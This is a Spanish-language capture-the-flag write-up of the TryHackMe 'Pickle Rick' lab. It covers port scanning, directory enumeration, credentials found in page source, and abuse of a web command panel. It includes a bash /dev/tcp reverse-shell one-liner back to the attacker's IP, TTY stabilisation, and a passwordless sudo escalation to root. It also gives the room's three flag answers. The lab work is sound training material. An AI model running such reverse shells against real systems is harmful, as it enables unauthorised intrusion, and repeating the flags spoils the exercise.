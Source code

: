 # Pickle Rick

![image.png](./IMAGENES/IMAGENES_PICKLERICK/image.png)

Maquinas que vamos a utilizar Kali Llinux y Pickle Rick  [https://tryhackme.com/room/picklerick](./IMAGENES/IMAGENES_PICKLERICK/https://tryhackme.com/room/picklerick)

- Vamos a mirar nuestra IP
    
    ```bash
    ifconfig
    ```
    
    ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%201.png)
    
    En este caso como estamos en un VPN nuestra Ip esta en el interface tun0: IP : **10.21.203.172**
    

- La IP de la maquina victima es: **10.10.214.144**
    
    ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%202.png)
    

---

```bash
sudo nmap -p- -sS -sV --min-rate=5000 -n -vvv -Pn 10.10.214.144
```

![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%203.png)

- Vamos a ver lo que esta corriendo en el puerto 80 atraves del navegador web.
    
    ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%204.png)
    
    - Inspeccionamos el código fuente de la web `CTRL+U`
        
        ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%205.png)
        
        Tenemos nuestra primera posible pista. un nombre de usuario:  `R1ckRul3s`
        

- Listamos directorios con Gobuster y buscamos posibles archivos con distintas extensiones.
    
    ```bash
    gobuster dir -u [http://10.10.214.144/](./IMAGENES/IMAGENES_PICKLERICK/http://10.10.214.144/) -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
    ```
    
    ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%206.png)
    
    Encontramos una posible ruta donde probar el usuario que hemos encontrado así como el archivo robots.txt el cual vamos a mirar su contenido.
    
    - Contenido del robots.txt
        
        ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%207.png)
        
        Nos lo apuntamos por si es alguna contraseña o nos pueda servir para algo mas adelante. `Wubbalubbadubdub`
        
    - Vamos a la pagina de Login.php y probamos el usuario y la posible contraseña que hemos encontrado
        
        ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%208.png)
        
    - Nos encontramos una barra de comandos que responde a comandos de Linux aunque no a todos. Hacemos un `ls`  y vemos varios archivos de texto que puede ser interesantes.
        
        ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%209.png)
        
    
    - Escribimos `less Sup3rS3cretPickl3Ingred.txt`
        
        ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%2010.png)
        
         Ya tenemos la primera Flag: `mr. meeseek hair`
        
        NOTA: El archivo clue.txt no contenía nada interesante.
        
- Aprovechando que acepta comando vamos a intentar introducir un código para crear un reverse Shell.
    - Nos vamos a la web: https://www.revshells.com/
        
        ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%2011.png)
        
        Obtenemos esta reverse Shell **`sh** -i >& /dev/tcp/**10.21.203.172**/**443** 0>&1` pero debemos adaptarla para que nos la coja correctamente añadiendo al principio `bash -c` y la revershell es importante ponerlo entre comillas rectas `" "`.
        
        `bash -c "**sh** -i >& /dev/tcp/**10.21.203.172**/**443** 0>&1"`
        
    - En un terminal nos ponemos a la escucha en el puerto 443 con netcat.
        
        ```bash
        sudo nc -nlvp 443  
        ```
        
        ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%2012.png)
        
    - Lanzamos el comando de la Reverse Shell
        
        ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%2013.png)
        
        Obtenemos una conexio
        
        ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%2014.png)
        

---

### Vamos a empezar el tratamiento de la TTY .

Nos colocamos en la terminal de la maquina victima.

- Escribimos el siguiente comando  y veremos que adquirimos un prompt.
    
    `script /dev/null -c bash`
    
- Hacemos un **`CTRL+Z`**

- Escribimos a continuación.
    
    `stty raw -echo; fg`
    

- Escribimos `reset xterm` . Es posible que no se muestre cuando lo escribimos pero aun así lo escribimos y pulsamos Enter. Y nos aparecerá la siguiente pantalla.

- Por ultimo tenemos que exportar 2 variables. escribimos lo siguiente.
    
    `export TERM=xterm`
    
    `export SHELL=bash`
    
    Con esto ya abrimos estabilizado el terminal y ya nos aceptaría los comandos que antes no lo hacia.
    

---

- Nos movemos al directorio raíz y desde hay vamos investigando. en este caso voy al directorio `home`
    - `cd /`
        
        `cd home`
        
        `ls -la`
        
        ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%2015.png)
        

- Miramos dentro de la carpeta rick
    
    `cd rick/`
    
    `ls -la`
    
    ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%2016.png)
    

- Miramos el contenido del archivo
    
    `cat 'second ingredients’`
    
    ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%2017.png)
    
    Ya tenemos la segunda Flag: `1 jerry tear`
    

---

Vamos a intentar escalar privilegios con Sudo -l

- `sudo -l`
    
    ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%2018.png)
    
    Vemos que podemos ser root sin necesidad de contraseña.
    
    `sudo su`
    
    `whoami`
    
    ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%2019.png)
    
- Seguimos investigando y vamos a la carpeta root
    
    `cd root`
    
    `ls -la`
    
    ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%2020.png)
    

- Miramos el contenido del archivo 3rd.txt
    
    `cat 3rd.txt` 
    
    ![image.png](./IMAGENES/IMAGENES_PICKLERICK/image%2021.png)
    
    Ya tenemos la tercera Flag: `fleeb juice`